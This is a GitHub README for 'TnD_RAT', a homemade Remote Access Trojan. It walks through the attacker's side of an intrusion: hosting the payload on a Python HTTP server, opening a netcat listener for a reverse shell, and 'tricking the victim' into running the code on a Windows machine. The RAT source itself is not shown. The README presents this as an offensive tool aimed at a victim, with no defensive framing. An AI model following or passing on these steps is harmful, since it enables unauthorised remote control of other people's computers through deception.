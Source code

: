 # TnD_RAT
TnD_RAT is a basic Remote Access Trojan that I made from scratch. I've tested to obtain a reverse shell on a Windows machine using it.

## Requirements
* A virtual server and its RSA id.
* A terminal to run ssh (preferably LINUX).
* A victim.
* My RAT code. 😉😉

## Usage
* Start the server.
* Connect to the server using the RSA id.
* Navigate to the directory where the RSA id is stored.
* Then run the following command to ssh into the server.
```bash
  ssh -i rsa_id <username>@IP_Address
```
* After connecting to the server host the a python server
```bash 
python3 -m http.server
```
* Open another terminal.
* SSH into the server again using this terminal by running the above ssh command.
* Set up a listener by using the following command.
```bash 
nc -nlvp <PORT NUMBER>
```
* Now, trick the victim into running our code on his device. (Make sure that the victim is connected to the internet.)

* Woila!!!  You got a reverse shell into the victim's device. 
